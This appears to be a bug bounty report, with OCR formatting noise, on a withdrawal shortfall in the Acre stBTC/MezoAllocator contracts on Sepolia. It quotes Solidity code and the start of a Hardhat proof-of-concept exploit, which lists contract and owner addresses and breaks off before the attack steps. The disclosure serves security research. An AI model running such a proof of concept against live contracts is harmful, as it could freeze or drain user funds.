 ```
    uint256 withdrawable &#x3D; depositedAmount - fee;
    emit Withdrawn(msg.sender, token, depositId, withdrawable);
    emit FeeCollected(msg.sender, token, depositId, fee);
    feeInfo[token].feeCollected +&#x3D; fee;
    IERC20(token).safeTransfer(msg.sender, withdrawable);
}
```

\`\`\` In this code, we see that the value used by the contract sits under deposits\[msg.sender]\[token]\[depositId]; Adding in our values and interacting with the contract on Sepolia Etherscan, we see that the image (Acre\_Deposit\_509.png) has a balance of 752030076580000000 (0.75203007658) During the process of withdrawals, we had at this point run the stBTC contract and the depositBalance down, this means that the MezoPortal amount transferred will now be much less that what the user requested on the redeem. Back within the withdraw function on MezoAllocator, MezoAllocator has received whatever MezoPortal has provided which in the POC is now less than the depositBalance value. However mezoPortal decides to send the amount value provided by the user from the number of shares provided by the stBTC token holder on in the redeem function on the stBTC contract.

function withdraw(uint256 amount) external { ... depositBalance -= uint96(amount); ... } This will not work and breaks the contract as MezoPortal doesn't have sufficient tokens to honor the request and then fails. A maintainer can then intervene at this point by depositing tBTC into stBTC to continue the withdrawals, the protocol however remains at reputational risk of been seen as insolvent.

Full code for the POC as ran under npx hardhat test to simulate the details above. \`\`\` const { expect } = require("chai"); const { ethers } = require("hardhat");

describe("Acre Bug Bounty", function () { it("Redeem runs out of funds?", async function () { this.timeout(300000);

```
// Set up contract addresses
const stBTCAddress &#x3D; &quot;0x7e184179b1F95A9ca398E6a16127f06b81Cb37a3&quot;;
const mezoAddress &#x3D; &quot;0xd5EbDD6fF384a465D56562D3a489c8CCE1B92dd0&quot;;
const mezoPortal &#x3D; &quot;0x6978E3e11b8Bc34ea836C1706fC742aC4Cb6b0Db&quot;;
const tBTCAddress &#x3D; &quot;0x517f2982701695D4E52f1ECFBEf3ba31Df470161&quot;;

// List of owner addresses
const ownerAddresses &#x3D; [
  &quot;0xCE06a2D105559C633451971ab1f843D667597265&quot;,
  &quot;0x512f4f3a02862b0A7e7F1D796B885ce3D4EaB5cf&quot;,
  &quot;0xB66ab5A4596250Ce20ff62262935CAB5E8A17695&quot;,
  &quot;0x54567d825cE85a4E9C4314984CEe4D9253458B1B&quot;,
  &quot;0x5476A06f08CD1F9669Ae6643C5eF9cc4F1848970&quot;,
  &quot;0x16610D47659373cEE43F6983D46b02256c03F7C1&quot;,
  &quot;0xD0B9584c57B6fFDeD640130232735388737dE251&quot;,
  &quot;0x88744F5da4308317B459EFB205028AED77B1ae2C&quot;,
  &quot;0x0763DfC2fb8b060e0629928B5D77466D1C4Ca379&quot;,
  // &quot;0x21F071bd9Ed020fb6E3e9A661Ca547E94f713467&quot;,
  &quot;0x6F1a421573082BE1BEAe22551259D4D793EfD2cE&quot;,
  &quot;0x9B55cDe4d96aAa9CCCc4fC9Fd12Ab43292750294&quot;,
  &quot;0x18361d831C81384fBd8c5BaCa1727cae64212B9d&quot;,
  &quot;0x8b63f664eC49bA2AbCb24ACCC76E3Ee1522ddB9e&quot;,
  &quot;0x8d951Dfe12e12ea4549e18382D7e4c9188046851&quot;,
  &quot;0x247c356466D139Df16231E576eF52B1168528B6F&quot;,
  &quot;0x18c3D37A85b4e44A5619d62Ee4900Bcc18b3bd5a&quot;,
  &quot;0x719743739BD4E5154248705BF9bF67ac2D85b52F&quot;,
  &quot;0x0483cD12aC9758e530dc184a1b542439BA6cDB8f&quot;,
  &quot;0x82d930246C2e0F2a383d893E1F1DeB45CE602d1B&quot;,
  &quot;0xA4761081d9Cb672d911d7df25E5a30D7925608CE&quot;,
  // &quot;0xd2C6168Fd106908Df71Ab639f8b7e2F971Ab8205&quot;,
  &quot;0x857173e7c7d76e051e80d30FCc3EA6A9C2b53756&quot;,
  &quot;0x3df087df73576CA02f5f2D10ce95b00355482a51&quot;,
  &quot;0x6e80164ea60673D64d5d6228beb684a1274Bb017&quot;,
];

```